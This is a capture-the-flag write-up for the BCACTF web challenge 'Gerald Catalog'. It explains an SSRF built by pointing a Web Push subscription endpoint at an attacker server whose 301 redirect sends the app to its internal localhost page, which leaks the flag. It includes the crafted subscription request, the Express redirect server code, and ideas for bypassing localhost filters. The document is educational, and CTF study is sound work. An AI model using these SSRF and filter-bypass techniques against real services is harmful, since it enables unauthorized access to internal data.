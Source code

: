 # Gerald Catalog
> 450 points, 6 solves, Author: anli
>
> Spotted a wild Gerald? Catalog them with the Official* Gerald Catalog!
> Use Firefox or a Chromium-based browser for the best experience!

The challenge is hosted at https://web.bcactf.com:49163/ and the source code of
the application was provided. This application has a registration & sign in flow,
an ability to create "geralds" which render an image with a custom caption on
view, and the ability to subscribe to push notifications when yours is viewed.

There is a specific gerald named "Flag Gerald" which has a copyright claim on it
which prevents anyone but on-side administrators to view it.

Our goal is to figure out how to get the caption of this gerald, which is where
the flag is stored (found in source).

## Quick Answer
1. Subscribe to push notifcations for "Flag Gerald"
1. Subscribe to push notifications for "Gerald", but modify the payload so
   the endpoint is your custom push server. You could use any other gerald here,
   it doesn't matter.
1. Add a breakpoint in sw.js when a push is received
1. View "Gerald"
1. Retrieve the caption/flag from the breakpoint 

## Full Explanation
This challenge took me quite awhile to figure out and I only finally solved it
with 1 hour left until the CTF was over after reading through the [Web Push
RFC](https://datatracker.ietf.org/doc/html/draft-ietf-webpush-protocol) for a bit.

There's a lot to look into with this app for how we might be able to view "Flag
Gerald" that took a lot of time to eliminate.

*Can we bypass the copyright claim logic in some way?* 
For example, IP forging with `X-Proto-For`, extra data stored in the JS Object
DB, prototype pollution

*Is there an XSS we can use to script a request?* 
Handlebars is used for templating, any unescaped html like `{{{html}}}`? Old
CVEs for HBS? What about DOM XSS? This code is in `gerald.hbs`, `<img
src="{{image}}" />`. The gerald image generation endpoint accepts an arbitrary
caption and renders it in a photo, any bugs in that? What about in the
underlying library used?

*Can we manipulate the DB data structures to get around the copyright claim?*
Does the app store any raw body payloads in the database? Are there any
filters we can bypass? Funny antectode, you can register as `__proto__` because
there is no username validation, and someone did by the time I tried to lol.

I don't want to write up details on why none of the above works, but suffice to
say it took me a lot of time to go through all of those until I finally
clarified how the problem was suppposed to be solved and focused on that. So
what was that clarity?

I realized that XSS wasn't going to be possible without something like an HBS
0-day which wasn't what this was going to be asking for, so I landed on needing
to find an SSRF and focused on that. In particular, we need a GET request SSRF.

### Finding a GET SSRF

If you look for external requests in the app you'll come across just
one in `notify.js`
```javascript
export async function sendNotifications(id: string, {subscription, name, caption}: Gerald) {
  if (subscription) {
    const {endpoint, headers, body, method} = await generateRequestDetails(subscription, JSON.stringify({ id, name, caption }));
    const response = await fetch(endpoint, {headers, body, method});
  }
}
```

If you dig into `generateRequestDetails`  you'll find out that this returns
data to make a POST to the subcription endpoint. An important aspect to notice
about this endpoint is that it sends the id, name and caption as part of the
push message, and the caption holds the flag. So if we can trigger the push, we
also need to intercept it somehow.

We can control the endpoint through the `PUT /geralds/:id/subscription` API
which is used to subscribe to notifications, you can replace the `endpoint`
value with your own server and see the `POST` SSRF come through. The request
looks like so:

```
PUT /gerald/2ae5dd3a-32e0-4f9b-8841-6c3c01433198/subscription HTTP/1.1
Host: web.bcactf.com:49163
Cookie: XXXXX
...snip...

{"endpoint":"https://your-push-server-here.com","keys":{"auth":"r8WKvrMGOloDmOMnkXtz8g","p256dh":"BCbfOkt9JjkSQNlgPvb1ogzENEl8m2JlbesORovA7iEkZjhzAeyUSc0ZLmpUrmvDuHAQvXxIVhpRoexZSYfwjLc"}}
```

> You may have noticed that in `notify.js` there's all sorts of validations around
> the value of the endpoint, but notably it allows external URLs just fine. These
> are incomplete anyways, you can bypass with 0.0.0.0 or with sites like 127.0.0.1.nip.io
> that resolve back to localhost. The incompleteness and how many checks there
> are actually makes you think there is a vuln here we can use, but not any I found.
>
> Also the keys and the fact that the request has encrypted content seem like they might
> be an issue, but you don't actually need to deal with this. Though that would be
> an interesting (and more complex) variant of this challenge, to actually implement
> the key exchange and algorithms for decoding the push message on your server.

But this is just a POST we need a GET so this won't actually work... or will it ;)

This is where you either need to be creative and just try stuff, or read the
spec. For me I was out of ideas so I started reading through the spec, knowing
that push was an important part of the challenge because for one it's rare to
see in CTFs and second, the challenge hint mentions it.

I started reviewing the spec by grepping for any GETs and reading the
information around them. My first aha moment was when reading section 5.1 about
"Requesting Push Message Receipts", basically the push server can request for it
to be made async and then will later make a GET to a push server controlled
value for confirmation in the `Link:` header. This seemed like a great way to
get an SSRF! 

```
HTTP/1.1 202 Accepted
Date: Thu, 11 Dec 2014 23:56:55 GMT
Link: </receipt-subscription/3ZtI4YVNBnUUZhuoChl6omUvG4ZM>;
        rel="urn:ietf:params:push:receipt"
Location: https://push.example.net/message/qDIYHNcfAIPP_5ITvURr-d6BGt
```

But it turns out this app do async push so that's not applicable, shortly after
I was saddened by this, I noticed what was staring me in the face. The
`Location:` header.

Section 5 is what maps to what the challenge app is doing in `notify.js` and per
the spec is supposed to return a `201 Created` with the location header set to
where to find the message. Aha!

```
HTTP/1.1 201 Created
Date: Thu, 11 Dec 2014 23:56:55 GMT
Location: https://push.example.net/message/qDIYHNcfAIPP_5ITvURr-d6BGt
```

Finally it clicked that `Location` is typically used for redirects, and that
will be a `GET` to a value that we can control. So I coded up the server, set
a 201 status and custom location to my server to test SSRF and... nothing.

In retrospect this was kind of a dumb expectation since it's just doing a
`fetch` and that's not going to follow that header with a `201`. But in the
moment I pretty quickly decided to change to a `301` and BOOM. My server
receives a GET request from the instance when I view "Gerald".

This is what the server response needs to look like (some headers could be
removed but express added them by default).
```
$ curl -v -XPOST localhost:8000
...snip...
< HTTP/1.1 301 Moved Permanently
< X-Powered-By: Express
< Location: http://your-ssrf-target.com
< Date: Sun, 13 Jun 2021 22:34:25 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Content-Length: 0
```

Now that I have a working SSRF, I just need to get the server to visit "Flag
Gerald" and I'll get my push notification about viewing it. I first set it to
"Also Gerald" (`https://web.bcactf.com:49163/gerald/f97d35b2-2c95-4889-a278-a6376337bd9c`)
just to check that it was working at all, and it was, I got a push about it!
Then I set it to "Flag Gerald" and... no push.

This was because when localhost makes a request to web.bcactf.com, it's not coming
directly from localhost anymore so the IP was set wrong and it wasn't allowing
it to be viewed, so no push. From the source code we can see where the app is
hosted internally:

```javascript
app.listen(1337);
console.log("Listening at http://localhost:1337");
```

So we change redirection to go to `https://localhost:1337/gerald/f97d35b2-2c95-4889-a278-a6376337bd9c`,
and BOOM. We get the push notification.

### Intercepting the Push Notification
We could be real fancy and try to implement a setup that could actually decrypt
the payload in the push message but there's a way easier way. In Firefox
devtools (and I'm sure Chrome too), you can start up the service worker and set
breakpoints in the javascript just like you can on normal websites, so we just
set one before it shows the notification and once we view "Gerald" again to
trigger the SSRF, bada bing we hit our breakpoint and get the flag.

![breakpoint]()

## Code used for server
```javascript
const express = require('express');
const morgan = require('morgan');

const app = express();
app.use(morgan('dev')); // nice logs when requests hit it

app.post('/', function(req, res){
  res.set('Location', 'http://localhost:1337/gerald/153d4759-fe68-48bc-a83b-283d03497b25';);
  res.status(301);
  return res.send();
});

app.listen(8000);
```
